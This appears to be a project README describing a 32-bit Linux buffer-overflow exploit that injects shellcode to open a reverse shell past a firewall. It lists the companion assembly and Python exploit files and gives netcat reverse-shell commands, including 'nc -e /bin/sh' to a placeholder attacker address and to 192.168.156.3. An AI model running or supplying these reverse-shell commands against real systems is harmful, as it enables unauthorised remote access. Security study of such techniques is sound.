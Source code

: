 # ReverseShell

(System Details : 32 bit architecture, AT&T syntax, Linux)

Reverse Shell- In systems where a firewall in place blocks incoming remote connection requests, organisations support establishing remote connections from the system to the outside world. 

Attackers make use of this functionality to fail the protection provided by firewall.

Reverse shell can be established in many ways. It is essentially a tcp connection over a process which in this case would be any shell bash,dash,sh, or zsh.

We can use netcat, perl, python, bash to create a reverse shell.

I have used a shellcode to exploit a buffer overflow vulnerability in a server program listening to TCP connections. First, I wrote an assembly program to establish a reverse shell, converted it to a bytecode and overflew the buffer to make the server make a connection to the attackers ip address listening over some port.

Netcat commands to establish a reverse shell :
Victim PC: (Inside the protection of firewall) "nc -e /bin/sh <attacker_ip> <port>"
Attacker pc: "nc -nlvp <port>"
{First try executing these commands in two different shell windows and see if you could execute shell commands inside attackers shell} 
  
Now keep the attackers PC listening over some port and exploit the buffer overflow vulnerability in the server program to make it connect to the attackers PC.

Code:
myattempt.s (Assembly code to execute "nc -e /bin/sh 192.168.156.3 4440")(Find and replace the ip_address with desired value in the assembly code. Do not forget to convert it to hex.)
Convert linked and loaded assembly code to bytecode.
exploit.py : Python exploit code to connect to and exploit the server vulnerability
finalexp.py : To run the exploit code with different return addresses to beat ASLR.


 
